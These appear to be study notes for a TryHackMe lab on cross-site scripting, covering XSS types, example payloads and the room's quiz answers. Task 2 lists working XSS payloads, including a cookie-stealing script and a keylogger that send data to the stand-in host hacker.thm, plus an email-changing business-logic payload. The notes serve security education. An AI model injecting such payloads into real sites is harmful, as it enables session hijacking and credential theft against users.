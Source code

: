 ```yaml
---
{"dg-publish":true,"permalink":"/thm-notes/web-fundamentals-path/cross-site-scripting-xss/","title":"Intro to Cross Site Scripting","tags":["web"]}
---
```


## Notes on XSS and Exploiting Cross-Site Scripting Vulnerabilities

## TASK 1 - Room Brief
### Prerequisites
- Basic understanding of JavaScript
- Understanding of Client-Server requests and responses

### Introduction to XSS
- XSS (Cross-Site Scripting): An injection attack where malicious JavaScript is injected into a web application to be executed by other users.
- Types of XSS:
  - Reflected XSS
  - Stored XSS
  - DOM-Based XSS
- Real-world examples of XSS vulnerabilities found in major applications: Shopify, Steam chat, HackerOne, Infogram.

**Questions:**
1. What does XSS stand for?
   - Answer: `Cross-site scripting`

## TASK 2 - XSS Payloads
### What is a Payload?
- The JavaScript code intended to be executed on the target's computer.
- Two parts: intention and modification.

### Examples of XSS Intentions
1. **Proof of Concept:**
   - Example: `<script>alert('XSS');</script>`
2. **Session Stealing:**
   - Example: `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
3. **Key Logger:**
   - Example: `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
4. **Business Logic:**
   - Example: `<script>user.changeEmail('attacker@hacker.thm');</script>`

**Questions:**
1. Which document property could contain the user's session token?
   - Answer: `document.cookie`
2. Which JavaScript method is often used as a Proof Of Concept?
   - Answer: `alert`
